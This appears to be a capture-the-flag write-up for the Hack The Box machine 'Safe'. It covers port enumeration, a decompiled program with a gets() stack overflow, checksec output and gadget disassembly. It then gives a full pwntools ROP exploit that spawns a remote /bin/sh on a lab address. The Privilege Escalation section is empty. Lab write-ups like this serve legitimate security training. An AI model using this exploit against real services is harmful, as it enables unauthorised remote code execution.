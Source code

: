 

# Safe Hack The Box


### Enumeration

We've found 3 ports
	- 22
	- 80
	- 1337

Enumerate the default page

```html
<html xmlns="http://www.w3.org/1999/xhtml">
<!-- 'myapp' can be downloaded to analyze from here
     its running on port 1337 -->
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Apache2 Debian Default Page: It works</title>
    <style type="text/css" media="screen">
  * {
```
### Intrusion

Defining the offset over the code decompiled

```c
int main(void)

{
  char greeter [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(greeter);
  puts(greeter);
  return 0;
}

```

First at all, we need to determine what can we do over this binary file and of course determine if the buffer overflow is possible

```bash
gef➤  checksec
[+] checksec for '/home/arthur/Reversing/MachinesHTB/Review/Safe/content/myapp'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

the offset is 120 and the way to perform the exploitation is take control over the system library due to this one is executed in the main function and we need to get the test function that is no used in the code.

```out
**************************************************************
*                          FUNCTION                          *
**************************************************************
			undefined __stdcall test(void)
            undefined         AL:1           <RETURN>
                             test                                            XREF[3]:     Entry Point(*), 00402060, 
                                                                                          00402108(*)  
        00401152 55              PUSH       RBP
        00401153 48 89 e5        MOV        RBP,RSP
        00401156 48 89 e7        MOV        RDI,RSP
        00401159 41 ff e5        JMP        R13
        0040115c 90              ??         90h
        0040115d 5d              ??         5Dh    ]
        0040115e c3              ??         C3h

```
### Buffer Overflow

The python code for the exploitation:

```python
#!/usr/bin/python3

from pwn import *

context(terminal=["tmux", "new-window"])
context(os="linux", arch="amd64")
shell = remote("10.10.10.147", 1337)
offset = b'A'*112
cmd = b'/bin/sh\x00'

#   ❯ objdump -D myapp | grep system
#   0000000000401040 <system@plt>:
#   401040:       ff 25 da 2f 00 00       jmp    *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>
#   40116e:       e8 cd fe ff ff          call   401040 <system@plt>

system = p64(0x401040)
test = p64(0x401152)

# just to send to r14 r15
null_byte = p64(0x0)

# ropper -f myapp --search "pop r13"
# 0x0000000000401206: pop r13; pop r14; pop r15; ret;
pop_13 = p64(0x401206)

exploit = offset + cmd + pop_13 + system + null_byte + null_byte + test

shell.sendline(exploit)
shell.interactive()

```


### Privilege Escalation

